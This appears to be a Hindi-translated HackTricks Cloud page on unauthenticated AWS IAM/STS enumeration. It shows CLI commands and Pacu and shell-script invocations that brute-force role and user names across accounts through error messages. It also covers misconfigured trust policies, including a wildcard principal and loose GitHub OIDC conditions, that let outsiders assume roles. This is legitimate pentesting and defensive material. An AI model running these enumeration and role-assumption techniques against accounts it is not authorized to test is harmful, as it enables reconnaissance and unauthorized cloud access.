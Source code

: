 # AWS - IAM & STS अनअथेंटिकेटेड एनुम

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** अपने PRs को **सबमिट** करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## खाते में भूमिकाएँ और उपयोगकर्ता नामों का जाँच करें

### ~~अस्स्यूम रोल ब्रूट-फोर्स~~

{% hint style="danger" %}
**यह तकनीक अब काम नहीं करती** क्योंकि रोल मौजूद हो या न हो, आपको हमेशा यह त्रुटि मिलती है:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

आप इसे **टेस्ट कर सकते हैं चलाकर**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**अनधिकृत रूप से एक भूमिका का अनुमान लगाने** का प्रयास करना जरूरी अनुमतियों के बिना AWS त्रुटि संदेश को ट्रिगर करता है। उदाहरण के लिए, अनधिकृत होने पर, AWS वापस दे सकता है:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
यह संदेश भूमिका की मौजूदगी की पुष्टि करता है लेकिन इसका assume role policy आपके assumption की अनुमति नहीं देता। विपरीत, किसी अस्तित्व में न होने वाली भूमिका को assume करने का प्रयास एक भिन्न त्रुटि में ले जाता है:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interestingly, इस **मेथड का उपयोग करके मौजूदा और गैर-मौजूदा भूमिकाओं के बीच भेद करने** की विधि विभिन्न AWS खातों के बीच भी लागू है। एक मान्य AWS खाता आईडी और एक लक्षित शब्दसूची के साथ, व्यक्ति खाते में मौजूद भूमिकाएँ सूचीबद्ध कर सकता है बिना किसी निहित सीमाओं का सामना किए।

आप इस [स्क्रिप्ट का उपयोग करके संभावित प्रिंसिपल को सूचीबद्ध कर सकते हैं](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) इस मुद्दे का दुरुपयोग करके।

### विश्वास नीतियाँ: ब्रूट-फोर्स क्रॉस अकाउंट भूमिकाएँ और उपयोगकर्ता

**IAM भूमिका की विश्वास नीति को कॉन्फ़िगर करना या अपडेट करना शामिल है जिसमें परिभाषित किया जाता है कि कौन से AWS संसाधन या सेवाएँ उस भूमिका को मान्यता देने और अस्थायी प्रमाणपत्र प्राप्त करने के लिए अधिकृत हैं।** यदि नीति में निर्दिष्ट संसाधन **मौजूद है**, तो विश्वास नीति **सफलतापूर्वक** सहेजती है। हालांकि, यदि संसाधन **मौजूद नहीं है**, तो एक **त्रुटि उत्पन्न होती है**, जिससे यह स्पष्ट होता है कि एक अमान्य प्रिंसिपल प्रदान किया गया था।

{% hint style="warning" %}
ध्यान दें कि उस संसाधन में आप एक क्रॉस अकाउंट भूमिका या उपयोगकर्ता निर्दिष्ट कर सकते हैं:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

यह एक नीति उदाहरण है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

यह है **त्रुटि** जो आपको मिलेगी अगर आप एक **भूमिका का उपयोग करते हैं जो मौजूद नहीं है**। यदि भूमिका **मौजूद है**, तो नीति **किसी भी त्रुटि के बिना** सहेजी जाएगी। (त्रुटि अपडेट के लिए है, लेकिन निर्माण के समय भी काम करता है)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
आप इस प्रक्रिया को [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) के साथ स्वचालित कर सकते हैं।

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

हम [Pacu](https://github.com/RhinoSecurityLabs/pacu) का उपयोग कर रहे हैं:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* उदाहरण में उपयोग किए गए `admin` रोल को pacu द्वारा अनुकरण के लिए आपके खाते में एक **रोल** है जिसे निर्दिष्ट किया गया है।

### Privesc

यदि रोल गलत ढंग से कॉन्फ़िगर किया गया है और किसी को इसे अस्सुम करने की अनुमति है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## तीसरे पक्ष का OIDC संघ

सोचिए कि आप **Github Actions workflow** को पढ़ने में सफल हो जाते हैं जो **AWS** के अंदर एक **role** तक पहुंच रहा है।\
यह विश्वास एक ऐसे **trust policy** के साथ एक role तक पहुंचने की अनुमति दे सकता है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
यह विश्वास नीति सही हो सकती है, लेकिन **अधिक स्थितियों की कमी** आपको इस पर अविश्वास करने पर मजबूर करनी चाहिए।\
यह इसलिए है क्योंकि पिछली भूमिका को **किसी भी Github क्रियाओं से किसी भी व्यक्ति** द्वारा अनुमानित किया जा सकता है! आपको स्थितियों में भी अन्य चीजों को जैसे कि संगठन का नाम, रेपो का नाम, एनवी, शाखा... भी निर्दिष्ट करना चाहिए।

एक अन्य संभावित गलत विन्यास यह है कि **निम्नलिखित तरह की एक स्थिति जोड़ें**:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
ध्यान दें कि **वाइल्डकार्ड** (\*) को **बिंदु** (:) से पहले लगाया गया है। आप एक ऑर्गनाइजेशन जैसे **org\_name1** बना सकते हैं और गिटहब एक्शन से **रोल अस्सुम कर सकते हैं**।

## संदर्भ

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड गिटहब रेपो में PR जमा करके।

</details>

